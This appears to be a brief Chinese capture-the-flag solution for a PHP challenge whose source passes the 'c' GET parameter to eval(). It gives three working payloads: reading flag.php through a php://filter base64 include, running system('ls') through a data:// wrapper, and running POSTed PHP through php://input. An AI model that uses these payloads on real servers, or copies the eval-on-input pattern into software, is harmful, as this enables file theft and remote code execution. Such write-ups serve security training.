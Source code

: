 ```
if(isset($_GET['c']){
$c=$_GET['c'];
eval($c);
}

 
```

 

# 第一种

```
?c=include$_GET[a];&a=php://filter/read=convert.base64-encode/resource=flag.php
```

直接读取flag.php



# 第二种

```
 ?c=include$_GET[a];&a=data://text/plain,<?php system("ls");?>
```

 

# 第三种

GET 

```
?c=include$_GET[a];&a=php://input
```

POST

```
<?php system("ls");?>
```

 

 

 